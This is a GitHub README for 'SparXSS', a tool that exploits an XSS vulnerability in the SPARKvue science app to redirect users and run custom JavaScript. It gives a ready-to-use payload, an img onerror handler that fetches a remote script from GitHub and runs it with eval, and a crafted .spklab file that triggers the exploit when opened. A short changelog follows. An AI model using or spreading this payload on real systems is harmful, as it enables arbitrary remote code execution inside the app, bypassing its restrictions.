## A JS Script For Redirection And Custom Javascript Execution For The SPARKvue XSS Vulnerability Found By ohonbob

Run it using:
```
<img src=# onerror='fetch("https://raw.githubusercontent.com/Amukerd/SparXSS/main/sparxss.js").then(r=>r.text()).then(c=>eval(c))'>
```

Or Download The SparXSS.spklab File And Select 'Open Saved Experiment' When You Open The App

## ToDo
- ~~Make Icon's Show up for Every URL~~
- ~~Make the custom URL's stay when you export the .spklab file~~ <br>
  (currently working, may be changed in the future- change the link from /sparxss.js to /Testing/test4.js to use)

## Changelog

10/26/2023
- Found out you have to click the textbox to update it before exporting to make the links actually save
-- yeet

10/25/2023
- Basic link saving functionality added
- The hyperlink button now accepts pressing enter to add a hyperlink

10/24/2023
- The checkpoint2 and getFaviconUrl functions have been combined into 1 function (only checkpoint2 now)
- The Hyperlink URL can now have https:// when it could not before
- Uploaded New SparXSS.spklab file to reflect the updates made so far
